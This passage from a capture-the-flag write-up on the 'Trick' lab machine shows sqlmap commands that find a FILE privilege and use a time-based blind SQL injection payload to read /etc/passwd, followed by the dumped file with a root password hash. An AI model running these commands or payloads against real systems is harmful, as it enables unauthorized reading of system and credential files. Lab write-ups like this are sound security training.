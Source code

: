 	database management system users [1]:
	[*] 'remo'@'localhost'
	
	```
7. Check current user SQL privileges
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap  --privilege --batch
	
	database management system users privileges:
	[*] %remo% [1]:
	    privilege: FILE
	
	```
	- With `FILE` privilege, 
		- Able to read files we have read access to.
		- Able to write file to directories we have write access to 
8. Read `/etc/passwd` to view users in the machine
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli2.txt --output-dir=$(pwd)/sqlmap2  --file-read=/etc/passwd --batch --threads 10
	
	Parameter: username (POST)
	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=test' AND (SELECT 6658 FROM (SELECT(SLEEP(5)))InNy) AND 'ksPl'='ksPl&password=test
	
	
	[*] starting @ 01:06:43 /2022-07-27/
	
	[*] ending @ 04:36:07 /2022-07-27/
	
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# cat /root/htb/trick/10.10.11.166/exploit/sqlmap2/preprod-payroll.trick.htb/files/_etc_passwd
	root:$6$78I.phJC$4eZRbAn.9IgixOBB5tlJAMVm90Qwv9T95w0rJIacRGZxTIvZ82JvR4G5pt99gxTly9H8Ryw35MSk5YjXG.XcJ0:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-�ata:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
	systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
	systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
	systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
	messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
	tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
	dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
	usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
	rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
	pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
	speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
	avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
	saned:x:112:121::/var/lib/saned:/usr/sbin/nologin